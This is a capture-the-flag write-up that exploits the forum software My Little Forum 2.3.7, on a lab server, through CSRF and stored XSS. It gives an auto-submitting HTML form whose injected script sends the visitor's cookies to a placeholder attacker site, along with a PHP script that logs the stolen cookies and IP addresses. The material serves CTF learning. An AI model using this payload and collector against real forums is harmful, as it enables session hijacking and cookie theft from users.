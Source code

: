 ﻿# Forum for all

Web-site:
![Site](/img/4.png)

1. Go to the forum. See that many people have already tried XSS, etc. Have a lot inputs: 4 cookies, different forms and GET requests. To force participants to poerate them all very severely.
2. At the footer of the page we see `powered by My Little Forum 2.3.7` then it is some third-party forum-script.
3. Use Google. We see that this is a vulnerable version. Go on this website https://www.exploit-db.com/exploits/40676/
4. Read about vulnerability. Try the first.
5. For CSRF and XSS is copied the form from the website and make it so that when switching on it automatically send a POST request:
````html
<form action="http://10.0.38.133:61937/index.php?mode=admin&action=edit_page" method="post" accept-charset="utf-8">
<input type="hidden" name="mode" value="admin">
<input type="hidden" name="title" value="Stored XSS 
<script>alert(1)</script>">
<input type="hidden" name="content" value="Stored XSS 
<script>alert(2)</script>">
<input type="hidden" name="menu_linkname" value="<script>var img=new Image();img.src='https://your_site/index.php?'+ encodeURI(document.cookie);</script>">
<input type="hidden" name="edit_page_submit" value="1">
<input type="submit" name="edit_page_submit" value="OK - Save page">
</form>
<body onload="document.forms[0].submit()">
````

PHP code:
````php
<?php
$text = urldecode($_SERVER['QUERY_STRING']);

if (!empty($_SERVER['HTTP_CLIENT_IP'])) 
{
	$ip=$_SERVER['HTTP_CLIENT_IP'];
}
elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR']))
{
	$ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
}
else
{
	$ip=$_SERVER['REMOTE_ADDR'];
}
$file=fopen("file.txt", "a");
fwrite ($file, $text.PHP_EOL);
fwrite ($file, $ip.PHP_EOL);
fwrite ($file, $_SERVER['HTTP_REFERER'].PHP_EOL);
fclose($file);
?>
````

In one of the inputs write your XSS. For example, in the input menu_linkname. Write a post on the forum with your HTML page. Get cookie with the flag.